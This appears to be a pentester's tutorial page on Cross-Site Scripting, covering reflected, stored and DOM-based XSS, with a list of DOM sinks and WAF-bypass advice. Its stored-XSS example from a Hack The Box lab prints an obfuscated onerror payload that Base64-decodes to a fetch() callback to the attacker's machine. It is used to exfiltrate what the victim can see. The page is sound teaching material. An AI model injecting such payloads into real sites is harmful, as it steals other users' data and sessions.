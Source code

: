 ```yaml
---
description: <script>
---
```


# Cross-Site Scripting

Cross-Site Scripting, or XSS, is a vulnerability that would allow attackers to exploit the interactions that **other users** have with an application. In short, it can allow us to impersonate and perform actions as another user, steal information and in some cases, gain RCE.

The most common way of testing if XSS is present on a website is to call the Javascript alert function. For example, the script tags of HTML can be used :`<script>alert(1)</script>`. \
The image below shows an example of what would pop out.

<figure><img src="../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

## How it Works

Browsers and websites allow users to interact with them and perform actions through Javascript. XSS would work via injecting malicious Javascript code to execute on a user's browser. Basically, **scripting across the website**.

There are 3 types of XSS:

1. Reflected XSS
2. Stored XSS
3. DOM Based XSS

### Reflected XSS

Reflected XSS is the simplest form of the exploit. This occurs when a malicious script is reflected off a web application and onto the victim's browser. This script is normally activated through a link or action on the website and would be redirected to the next user.

<figure><img src="../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

An example would be as follows:

* Suppose we have a website that had a URL that displayed a user-controlled term like http://example.com?search=test
* This search term would cause this to appear on the page:
  * `<p>You searched for: test </p>`
* Using Reflected XSS, we can construct a malicious search link that would trigger a pop-up to appear on screen.&#x20;
* Assuming the website does not have any filters, we can input **http://example.com?search=\<script>alert(1)\</script>** as the URL.
* When any client enters this link, our malicious script would execute on their end and the pop-up would show up in their browsers.
* This works because the rendering of HTML would show this:
  * `<p>You searched for: <script>alert(1)</script></p>`
  * The script tags allow for an 'escape' from the paragraph tags, and we can execute Javascript code within the tags.

Reflected XSS attacks still rely on the **victim user to make a request they control**. We still need the victim to perform a specific action in order to exploit this. This could be through sending phishing links or putting links on a website we control.

The reliance on the user makes the impacts of XSS less severe compared to the other forms of XSS.

### Stored XSS

Stored XSS means that the malicious script is stored on the website itself. Then, everytime a user visits the page that the script is on, it would execute. Stored XSS has much more severe impacts, as it only requires users to go visit the site. This can be in the form of a blog post comment, editing the website page to have hidden Javascript, etc.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Here's an example of XSS from the HTB machine, Extension:

After enumeration of the website, we have identified that there is a stored XSS vulnerability in the 'Report Issues' function of the Gitea instance. The victim has been found to visit the Issues tab of the Gitea instance from time to time.&#x20;

This was the payload found to work: `test<test><img SRC="x" onerror=eval.call${"eval\x28atobZmV0Y2goImh0dHA6Ly8xMC4xMC4xNC41LyIp\x29"}>`

How this payload works is through rendering an **image** tag and having a script execute on an **event** called 'onerror', which means if the image fails to load, it would load the script. The scriptis calling an **eval** function which has a Base64 encoded command using **fetch** to connect back to the attacker machine on port 80.

When inputted, the victim would view the Issues and be served this payload. This would result in the victim's browser making a callback to the attacker machine. On the attacker machine, the following callback is received:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

This confirms that the XSS is working properly. For this machine, the payload can be modified to include information about a hidden directory that only the victim can access:

<figure><img src="../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

Stored XSS is much more dangerous because it stores the script on the page itself and exploiting every user that visits it. In the above example, XSS was used to steal information about a directory that only the user could visit. In other cases, stuff like authorisation cookies or passwords can be stolen by attackers.

### DOM-Based XSS

DOM XSS arises when Javascript takes some input from a user-controlled source and processes it insecurely.&#x20;

> Document Object Model (DOM) is a programming interface for web pages, defining the structure of a document and how the document is accessed and manipulated. A website can use Javascript to do something, but uses DOM to access the document and the relevant elements. DOM is structured like a hiearchy tree, with a root element and other elements that are children of the root node.
>
> More can be read here:
>
> [https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction](https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction)

DOM XSS arises when data is passed to something called a **sink**, which is basically a function that supports **dynamic code execution.** This can be a function like **eval,** for example. Malicious Javascript code can be passed to this sink and allow for the execution of Javascript used to hijack other accounts.

Here are some sinks that can be used for DOM XSS:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

These functions **are not limited to only XSS,** but can also be used for other DOM exploits, such as **open redirection,** through exploiting taint flow vulnerabilities.&#x20;

There are methods to test the HTML and Javascript sinks that are within a website that require the use of browser inspector tools, which would involve looking at how data is parsed by the function. First, we would need to identify a potential source (input location) whereby our input is processed via the sink. Then we can test them as follows:

* HTML Sinks
  * Input HTML strings within a potentially vulnerable sink.
  * Check the page source and try to find out string.
  * Attempt ot break out of the HTML tags to execute our code.&#x20;
* Javascript execution sinks
  * Sometimes, we cannot see our input anywhere within the DOM, so we can't search for it.&#x20;
  * Use the Javascript Debugger to determine whether and how our input is sent to a sink.
  * Add a break point and follow how the source's value is read, then track the variables to see if they are passed to a sink.&#x20;
  * Once we have found the sink, attempt to execute malicious Javascript by tweaking our payload.

**Here's an example of exploiting DOM-based XSS:**

Suppose we have this website that has a dashboard customised based on the username. The username is encoded **in the URL** and used directly on the page.

```markup
<html>
<head>
<title>Custom Dashboard </title>
...
</head>
Main Dashboard for
<script>
	var pos=document.URL.indexOf("context=")+8;
	document.write(document.URL.substring(pos,document.URL.length));
</script>
...
</html>
```

We can see that the vulnerable sink used is **document.write( ),** and the **source** would be a **context** parameter we pass to the website. We can then embed a malicious script in the URL like this: `http://example.com/dashboard.html#context=<script>alert(1)</script>`.&#x20;

A victim would then need to click this link. When the link is clicked and the browser starts building the DOM of the page, the browser would use the URL provided (in this case, the malcious link above) and run it. The malicious context parameter would then be extracted and the HTML is updated to have our code. The browser then runs this code and calls the alert function, thus making the XSS possible.&#x20;

## Payloads

XSS is a common vulnerablity and there are often measures to prevent it's execution. For example, a website could restrict the usage of **events** or **\<script>** tags to prevent users from exploiting it. However, there are always ways to bypass this.

In basic cases, websites can allow for \<script> tags to be used as input and allow for the embedding of HTML directly on the page. However, if the website has a WAF that does not allow this, we can brute force the possible tags possible.&#x20;

Event attributes can be used in conjunction with tags to deliver the payload, such as **onerror**. Again, this can be brute forced. A lot of XSS payloads out there are built to bypass WAF detection and execute our payload. I normally use Portswigger's cheat sheet to find all the possible tags and events for each browser.

> HTML Event attributes allow events to trigger actions on a browser, like starting Javascript whne a user clicks on an element. For example, using the \<img src="x" onerror=alert(1)> payload would attempt to render an image, which would always result in an error in this case. This would trigger the alert(1) to happen.

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

There are loads of payload repositories out there, so I'm not going to make one here.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection" %}
